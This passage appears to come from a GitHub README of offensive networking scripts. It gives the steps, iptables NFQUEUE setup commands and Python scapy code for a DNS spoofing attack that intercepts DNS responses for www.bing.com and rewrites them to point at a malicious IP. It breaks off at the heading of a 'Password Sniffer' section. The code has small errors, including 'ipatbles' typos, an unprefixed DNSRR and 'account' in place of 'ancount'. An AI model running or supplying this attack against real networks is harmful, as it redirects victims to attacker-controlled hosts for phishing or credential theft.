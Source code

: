 ### Steps

1. Trap the captured packets in a queue
2. Filter for DNS Response in the packet payload
3. In the DNS Response, check if website name is present, and replace the website IP with malicious IP 
4. Send modified DNS Response payload   

### Prerequisites

- `pip install netfilterqueue`
- `ipatbles -I FORWARD -j NFQUEUE --queue-num 0`	       // for remote computers
- `ipatbles -I INPUT -j NFQUEUE --queue-num 0`		// for same machine
- `ipatbles -I OUTPUT -j NFQUEUE --queue-num 0`		// for same machine
- To remove *iptables* rules: `iptables --flush`

### Code

```
import netfilterqueue
import scapy.all as scapy 

def process_packet(packet):
	scapy_packet = scapy.IP(packet.get_payload())
	if scapy_packet.haslayer(DNSRR):
		qname = scapy_packet[scapy.DNSRR].qname
		if "www.bing.com" in qname:
			print("\n[+] Spoofing target\n")
			answer = scapy.DNSRR(rrname=qname, rdata=MALICIOUS_IP)
			scapy_packet[scapy.DNS].an = answer 
			scapy_packet[scapy.DNS].account = 1

			del scapy_packet[scapy.IP].len
			del scapy_packet[scapy.IP].chksum
			del scapy_packet[scapy.UDP].len
			del scapy_packet[scapy.UDP].chksum
			
			packet.set_payload(str(scapy_packet))
			
	packet.accept()
	
queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

---

## 06 - Password Sniffer 

### Code 
